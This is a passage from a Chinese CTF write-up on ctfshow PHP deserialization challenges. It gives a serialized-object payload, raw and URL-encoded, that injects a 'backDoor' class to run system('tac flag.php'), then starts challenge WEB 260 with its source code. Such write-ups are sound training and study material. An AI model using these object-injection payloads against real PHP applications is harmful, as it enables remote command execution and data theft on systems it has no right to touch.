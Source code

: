 所以最后是

```
O:+11:"ctfShowUser":4:{s:21:"ctfShowUserusername";s:6:"xxxxxx";s:21:"ctfShowUserpassword";s:6:"xxxxxx";s:18:"ctfShowUserisVip";b:0;s:18:"ctfShowUserclass";O:8:"backDoor":1:{s:14:"backDoorcode";s:23:"system("tac flag.php");";}}
```

url encode之后就是

```
O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22ctfShowUserusername%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22ctfShowUserpassword%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22ctfShowUserisVip%22%3Bb%3A0%3Bs%3A18%3A%22ctfShowUserclass%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22backDoorcode%22%3Bs%3A23%3A%22system(%22tac%20flag.php%22)%3B%22%3B%7D%7D
```

不知道为什么我这个出不来，我不想死在这，但是这个方法是这样没有错误的的，如果有那也不是我的问题了。



## <mark style="color:blue;background-color:purple;">（6）WEB 260</mark>

```php
 <?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}

```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ①代码解释

只要匹配有ctfshow......就行了。
